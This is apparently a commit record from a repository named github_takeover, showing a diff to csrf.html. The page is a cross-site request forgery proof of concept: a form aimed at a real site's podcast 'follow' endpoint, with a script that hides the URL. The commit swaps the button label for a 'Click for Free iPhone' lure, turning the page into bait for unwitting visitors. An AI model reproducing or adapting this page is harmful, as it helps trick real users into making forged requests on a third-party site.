

Before and after one commit to juniorhero/github_takeover, a plain HTML site: page csrf.html in a window 1280 px wide. Shown: the full height of the page, 0-640 px from the left. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update csrf.html

```diff
--- a/csrf.html
+++ b/csrf.html
@@ -2,7 +2,7 @@
   <body>
   <script>history.pushState('', '', '/')</script>
     <form action="https://b2b.fm/show/xl-podcast/profile/follow">
-      <input type="submit" value="Submit request" />
+      <input type="submit" value="Click for Free iPhone" />
     </form>
   </body>
 </html>
```
